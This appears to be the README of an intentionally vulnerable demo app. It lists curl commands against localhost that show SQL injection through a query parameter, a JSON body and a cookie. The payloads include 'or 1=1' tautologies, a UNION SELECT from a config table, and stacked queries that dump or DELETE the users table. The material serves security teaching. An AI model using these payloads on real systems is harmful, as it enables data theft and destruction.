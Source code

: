 # vulnerable

## GET request - Get list of users - filter in query param
```bash
curl http://localhost:8080/vun/sql/example1/api/users?name=michal
curl http://localhost:8080/vun/sql/example1/api/users?name=michal%27%20or%201=1%20--%20-
curl http://localhost:8080/vun/sql/example1/api/users?name=michal%27%20UNION%20SELECT%20%2A%20FROM%20config%20%2D%2D%20%2D
```

## POST request - Get list of users - filter in body
```bash
curl -X POST http://localhost:8080/vun/sql/example2/api/users -H "Content-Type: application/json" -d "{\"filter\": \"michal\"}"  
curl -X POST http://localhost:8080/vun/sql/example2/api/users -H "Content-Type: application/json" -d "{\"filter\": \"michal' or 1=1 -- -\"}"  
```

## Post request - Create new User
```bash
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker\"}"  
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); SELECT * FROM users; -- - \"}"  
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); DELETE FROM users; -- - \"}"  
```

## GET request - Get list of users - filter in cookie
```bash
curl http://localhost:8080/vun/sql/example4/api/users --cookie "name=michal"
curl http://localhost:8080/vun/sql/example4/api/users --cookie "name=michal'%20or%201=1%20--%20-"
```